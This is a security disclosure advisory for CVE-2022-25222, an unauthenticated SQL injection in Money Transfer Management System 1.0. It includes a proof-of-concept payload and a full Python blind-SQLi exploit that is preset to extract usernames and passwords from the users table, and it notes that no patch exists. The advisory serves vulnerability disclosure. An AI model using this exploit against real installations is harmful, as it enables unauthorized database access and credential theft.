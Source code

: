```yaml
---
slug: advisories/berry/
title: Money Transfer Management System 1.0 - Unauthenticated SQLi
authors: Oscar Uribe
writer: ouribe
codename: berry
product: Money Transfer Management System 1.0
date: 2022-03-15 12:00 COT
cveid: CVE-2022-25222
description: Money Transfer Management System 1.0 - Unauthenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, MTMS, SQL
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                                  |
|-------------------------|------------------------------------------------------------------|
| **Name**                | Money Transfer Management System - Unauthenticated SQL Injection |
| **Code name**           | [Berry](https://en.wikipedia.org/wiki/Chuck_Berry)               |
| **Product**             | Money Transfer Management System                                 |
| **Affected versions**   | Version 1.0                                                      |
| **State**               | Public                                                           |
| **Release date**        | 2022-03-15                                                       |

## Vulnerability

|                       |                                                                                 |
|-----------------------|---------------------------------------------------------------------------------|
| **Kind**              | SQL injection                                                                   |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)|
| **Remote**            | Yes                                                                             |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N                                    |
| **CVSSv3 Base Score** | 7.5                                                                             |
| **Exploit available** | Yes                                                                             |
| **CVE ID(s)**         | [CVE-2022-25222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25222)                                                                                      |

## Description

Money Transfer Management System **Version 1.0** allows an unauthenticated
user to inject SQL queries in `admin/maintenance/manage_branch.php`
and `admin/maintenance/manage_fee.php` via the `id` parameter.

## Proof of Concept

Steps to reproduce

1. Go to `http://127.0.0.1/mtms/admin/maintenance/manage_branch.php`

2. Insert the following query inside the `id` parameter.

```sql
?id=1' and 1=1 -- -
```

3. The server response changes if the second part of the query is true or false.
   To automate the process use the below exploit.

System Information

* Version: Money Transfer Management System version 1.0.
* Operating System: Linux.
* Web Server: Apache
* PHP Version: 7.4
* Database and version: MySQL

## Exploit

```python
import requests
import urllib.parse

dictionary = """0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ !"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"""

def sqli_bool(base_url,query):


    url = "?id=1' and %s -- -" % query

    #proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}
    #r = requests.get(base_url+url, proxies=proxies)
    r = requests.get(base_url+url)

    if len(r.text) > 2700:
        return True

    else:
        return False


def get_length(url, query):

    for i in range(0,200):
        current_query = "(length((%s))=%s)"%(query,str(i))
        current_query = current_query=urllib.parse.quote(current_query)
        if sqli_bool(url,current_query):
            break

    if i !=199:
        return i
    else:
        return -1


def make_query(url,query):

    # Get length
    length = get_length(url,query)

    print("[*] Getting output length:")
    if length == -1:
        print("Error getting query length")
        return 0
    print("[+] Output Lenght: " + str(length))

    current_result = ""

    print()
    print("[*] Getting output: ")

    for pos in range(length+1):
        for char in dictionary:

            current_query = '(substr((%s),%s,1)="%s")' %(query,str(pos),requests.utils.quote(char))
            if sqli_bool(url,current_query):
                current_result += char
                print(current_result, end='\r')
                break

    print("[+] Found: " + " " * 100)
    print(current_result)


url = "http://127.0.0.1/mtms/admin/maintenance/manage_branch.php"

# must be only 1 row
# use limit and offset to iterate

# CHANGE THIS
query = "select concat(username,':', password) as t1 from users limit 1"

make_query(url,query)
```

## Mitigation

By 2022-03-15 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html>           |

## Timeline

* 2022-02-15: Vulnerability discovered.

* 2022-02-15: Vendor contacted.

* 2022-03-15: Public Disclosure.
